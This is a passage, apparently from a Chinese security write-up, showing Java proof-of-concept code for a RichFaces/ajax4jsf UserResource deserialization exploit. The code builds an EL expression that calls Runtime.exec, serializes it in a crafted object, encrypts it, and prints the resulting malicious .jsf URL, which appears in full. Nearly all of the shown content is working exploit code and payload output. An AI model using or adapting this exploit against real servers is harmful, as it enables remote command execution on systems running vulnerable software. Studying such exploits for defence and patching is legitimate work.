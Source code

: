 ```java
            "#{request.getClass.getClassLoader().loadClass(\"java.lang.Runtime\").getMethod(\"getRuntime\").invoke(null).exec(\"calc\")}";
		Class targetClass = Class.forName("org.ajax4jsf.resource.UserResource$UriData");
		Constructor constructor = targetClass.getDeclaredConstructors()[0];
		constructor.setAccessible(true);
		Object object = constructor.newInstance();
		Class[] arg = new Class[]{javax.el.MethodExpression.class};
		MethodExpressionImpl methodExpression = new MethodExpressionImpl(poc,null,null,null,null,arg);
		StateHolderSaver exp = new StateHolderSaver(null,methodExpression);
		Reflections.setFiled(object,"createContent",exp);
		ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
		ObjectOutput output = new ObjectOutputStream(byteArrayOutputStream);
		output.writeObject(object); 
		byte[] result = encrypt(byteArrayOutputStream.toByteArray());
		System.out.println("/"+ new String(result, StandardCharsets.UTF_8) + ".jsf");	
	}
}
```

得到恶意URL：

```
http://127.0.0.1:80/a4j/s/3_3_0.GAorg.ajax4jsf.resource.UserResource/n/s/-1487394660/DATA/eAF9kb9rFEEUx18Ogz9iCj0wWKTIKnJnMddolVhFMcKeQpYIJtW72XfnrLMzczOzl8VDuzRpLNLa2SaVf4GtYJP!wCoEEYJg7-zukSCIU82b-c7nfd93Dn!CvLNwX9sRwwzLB5kbMktOF5YT23JkN2fF3S0rHqNHqFb74Y8WXIphkVtCT-taeVLew804wwn2JKpR78UgI-5XY7hMpRGBOYb3MBfDlVynYigondXzE5QF1UVpgpd7FaJkQ-TkGNe50SqwWeJDow0tU7IJTsi--vr50cHHb!0WtGK4yiU69xxz-ttD4q1Qo-Dhmgtv0prh4VbjUuheQlagFG9xIGm1NFX7lSqKbKCdYyRZn!xrnT4pTfDvhFbPciMHZ0u!F77c6F8HKC3cbuz-QzuOlxa2P3w!a9W69rnugvZpbz!5tX28VinM7hR270wtjQtyno3Ir1czdbrn21hjGD4cyLBpLqMKyqq42WahvMgpqvWN7U4UKBfnQk30G-qoQsouo5J4J-IoedR9B1BYaO!UsTS0WXBHxy9PTpenT2uD4d!n!H!mNSYkaP4ALHfPHA__.jsf
```











6月23日第一次重新开始编辑时为2w+字。